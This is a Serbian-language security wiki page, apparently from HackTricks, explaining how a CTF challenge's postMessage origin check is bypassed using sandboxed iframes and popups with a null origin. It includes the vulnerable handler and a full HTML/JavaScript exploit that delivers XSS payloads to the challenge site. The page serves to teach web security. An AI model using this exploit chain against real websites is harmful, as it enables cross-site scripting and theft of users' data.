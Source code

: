 # Bypassing SOP with Iframes - 1

{{#include ../../banners/hacktricks-training.md}}

## Iframes in SOP-1

U ovom [**izazovu**](https://github.com/terjanq/same-origin-xss) koji su kreirali [**NDevTK**](https://github.com/NDevTK) i [**Terjanq**](https://github.com/terjanq) potrebno je da iskoristite XSS u kodiranom
```javascript
const identifier = "4a600cd2d4f9aa1cfb5aa786"
onmessage = (e) => {
const data = e.data
if (e.origin !== window.origin && data.identifier !== identifier) return
if (data.type === "render") {
renderContainer.innerHTML = data.body
}
}
```
Glavni problem je što glavna stranica koristi DomPurify za slanje `data.body`, tako da da biste poslali svoje vlastite html podatke tom kodu, morate **bypass** `e.origin !== window.origin`.

Hajde da vidimo rešenje koje predlažu.

### SOP bypass 1 (e.origin === null)

Kada je `//example.org` ugrađen u **sandboxed iframe**, tada će **origin** stranice biti **`null`**, tj. **`window.origin === null`**. Tako da jednostavno ugrađujući iframe putem `<iframe sandbox="allow-scripts" src="https://so-xss.terjanq.me/iframe.php">` možemo **prisiliti `null` origin**.

Ako je stranica bila **embeddable**, mogli biste na taj način zaobići tu zaštitu (kolačići takođe mogu biti postavljeni na `SameSite=None`).

### SOP bypass 2 (window.origin === null)

Manje poznata činjenica je da kada je **sandbox vrednost `allow-popups` postavljena**, tada će **otvoreni popup** **naslediti** sve **sandboxed atribute** osim ako `allow-popups-to-escape-sandbox` nije postavljen.\
Dakle, otvaranje **popupa** iz **null origin** će učiniti da **`window.origin`** unutar popupa takođe bude **`null`**.

### Rešenje izazova

Stoga, za ovaj izazov, može se **napraviti** **iframe**, **otvoriti popup** na stranicu sa ranjivim XSS kodom (`/iframe.php`), pošto je `window.origin === e.origin` jer su oba `null`, moguće je **poslati payload koji će iskoristiti XSS**.

Taj **payload** će dobiti **identifikator** i poslati **XSS** **nazad na glavnu stranicu** (stranicu koja je otvorila popup), **koja** će **promeniti lokaciju** na **ranjivi** `/iframe.php`. Pošto je identifikator poznat, nije važno što uslov `window.origin === e.origin` nije zadovoljen (zapamtite, origin je **popup** iz iframe-a koji ima **origin** **`null`**) jer `data.identifier === identifier`. Tada će se **XSS ponovo aktivirati**, ovaj put u ispravnom originu.
```html
<body>
<script>
f = document.createElement("iframe")

// Needed flags
f.sandbox = "allow-scripts allow-popups allow-top-navigation"

// Second communication with /iframe.php (this is the top page relocated)
// This will execute the alert in the correct origin
const payload = `x=opener.top;opener.postMessage(1,'*');setTimeout(()=>{
x.postMessage({type:'render',identifier,body:'<img/src/onerror=alert(localStorage.html)>'},'*');
},1000);`.replaceAll("\n", " ")

// Initial communication
// Open /iframe.php in a popup, both iframes and popup will have "null" as origin
// Then, bypass window.origin === e.origin to steal the identifier and communicate
// with the top with the second XSS payload
f.srcdoc = `
<h1>Click me!</h1>
<script>
onclick = e => {
let w = open('https://so-xss.terjanq.me/iframe.php');
onmessage = e => top.location = 'https://so-xss.terjanq.me/iframe.php';
setTimeout(_ => {
w.postMessage({type: "render", body: "<audio/src/onerror=\\"${payload}\\">"}, '*')
}, 1000);
};
<\/script>
`
document.body.appendChild(f)
</script>
</body>
```
{{#include ../../banners/hacktricks-training.md}}
